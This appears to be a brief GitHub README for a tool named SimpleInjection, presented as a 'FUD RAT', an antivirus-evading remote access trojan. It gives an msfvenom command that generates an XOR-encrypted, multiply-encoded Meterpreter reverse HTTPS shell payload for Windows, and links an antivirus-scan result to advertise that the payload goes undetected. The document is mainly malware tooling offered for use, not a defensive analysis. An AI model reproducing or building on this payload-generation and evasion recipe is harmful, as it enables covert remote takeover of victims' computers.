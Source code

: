 # SimpleInjection
FUD RAT (Xor encrypted Meterpreter, shellcode injector)

to generate shellcode:

msfvenom -p windows/x64/meterpreter/reverse_https lhost=192.168.56.1 lport=4444 -e x64/zutto_dekiru -i 20 --encrypt xor --encrypt-key byte4RR4Y -f csharp


https://antiscan.me/images/result/7R5CcVwJfzn3.png
